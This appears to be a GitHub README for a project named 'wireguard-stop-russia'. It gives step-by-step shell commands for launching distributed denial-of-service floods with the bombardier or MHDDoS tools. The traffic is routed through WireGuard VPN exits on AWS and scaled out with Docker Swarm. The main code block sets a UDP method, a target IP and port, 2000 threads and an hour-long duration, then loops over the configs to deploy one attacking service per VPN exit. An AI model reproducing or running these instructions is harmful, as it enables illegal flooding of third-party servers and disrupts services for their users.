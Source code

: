 #### VPN servers:
* Install Wireguard in several AWS regions
* Generate wireguard configs from this services
* Wireguard HowTo:
  ``` bash
    Will be soon...
  ``` 

##### Docker swarm bombardier or MHDDoS via wireguard
* ``` mkdir -p /home/$USER/wireguard-conf ```
* Put wireguard configs to some directory (example: /home/$USER/wireguard-conf)
* Spin-up spot server on AWS with Ubuntu 20.04
* Install docker
* Add tour current user to docker group ```  sudo usermod -aG docker $USER ```
* Install wireguard package on this server ``` sudo apt install wireguard ```
* Clone repo:
  * to use bombardier clone master branch:
  ``` bash
  git clone https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS clone dripper branch 
  ``` bash
  git clone --branch dripper https://github.com/neironus/wireguard-stop-russia.git
  ```
* Change directory to this repo
* Build docker image (It take about - 20 minutes, feel free to optimize the process): 
    ``` bash 
    DOCKER_BUILDKIT=1 docker build --tag wireguard-stop-russia . 
    ```

``` bash
# Init docker swarm
docker swarm init --advertise-addr $(hostname -i)
# If you dot an error please use next command:  
docker swarm init
# Create services with wireguard configs
# One wireguard config == 1 service with 1 replica
export WG_CONF_DIR=/home/$USER/wireguard-conf
export WIREGUARD_PORT=51820
export METHOD=udp
export IP_PORT=1.1.1.1:53 # Example!!! Don't use 1.1.1.1
export THREADS=2000
export DURATION=3600
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; docker stack deploy -c docker-compose.yml $name; sleep 1; done

# Delete services
export WG_CONF_DIR=/home/$USER/wireguard-conf
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; docker stack rm $name; sleep 1; done


# List containers
docker ps 

# Get top from specific container (Get container id form prevues command)
docker top container-id 

# Get logs from specific container
docker logs container-id 
docker logs -f container-id 
```
``` bash
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; echo "$name - $WIREGUARD_CLIENT_CONFIG"; sleep 1; done

```